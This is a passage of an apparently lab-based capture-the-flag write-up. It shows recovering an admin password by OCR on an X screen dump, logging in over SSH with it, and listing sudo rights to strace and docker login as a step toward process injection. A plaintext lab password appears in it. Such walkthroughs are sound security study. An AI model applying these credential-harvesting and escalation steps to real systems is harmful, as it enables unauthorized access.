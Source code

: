 We can see there is password for `tom_summers_admin` in the image. <br>
There is a problem, we can not copy that to save it. <br>
> In case if we lazy, we can type them out to the notepad.

Gonna use some tools from [netpbm](https://www.commandlinux.com/man-page/man1/netpbm.1.html) to convert the image to a text file.

```bash
└─$ xwdtopnm Xvfb_screen0 > screen.pnm

└─$ pnmtopng screen.pnm > screen.png

└─$ tesseract screen.png credentials.txt

└─$ cat credentials.txt
File Edit Search View Document Help

lusername: tom_summers_admin
password: dWpuk7cesBjT-
```

Got the password for `tom_summers_admin`. <br>
&rarr; `dWpuk7cesBjT-`

```bash
└─$ ssh tom_summers_admin@10.129.2.68
(tom_summers_admin@10.129.2.68) Password: 
tom_summers_admin@main:~$ ls -la
total 20
drwxr-x--- 5 tom_summers_admin tom_summers_admin 4096 Oct 30  2024 .
drwxr-xr-x 7 root              root              4096 Oct 31  2024 ..
lrwxrwxrwx 1 root              root                 9 Oct 30  2024 .bash_history -> /dev/null
drwx------ 4 tom_summers_admin tom_summers_admin 4096 Apr  6 13:36 .cache
drwxr-xr-x 2               700 tom_summers_admin 4096 Oct 30  2024 .docker
drwx------ 3 tom_summers_admin tom_summers_admin 4096 Oct 30  2024 .local
tom_summers_admin@main:~$
```

### Docker Process Injection
```bash
tom_summers_admin@main:/$ sudo -l
Matching Defaults entries for tom_summers_admin on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tom_summers_admin may run the following commands on localhost:
    (rebecca_smith) NOPASSWD: /usr/bin/docker login
    (rebecca_smith) NOPASSWD: /usr/bin/strace -s 128 -p [0-9]*
```

This one will checking the sudo permission of current user which is allowed to execute. <br>
We can see that `tom_summers_admin` can execute `docker login` and `strace -s 128 -p [0-9]*` under `rebecca_smith` user.

I found this article [Escaping Docker Container: An Attacker's Perspective](https://wizardcyber.com/escaping-docker-container-an-attackers-perspective/) and it's really helpful.
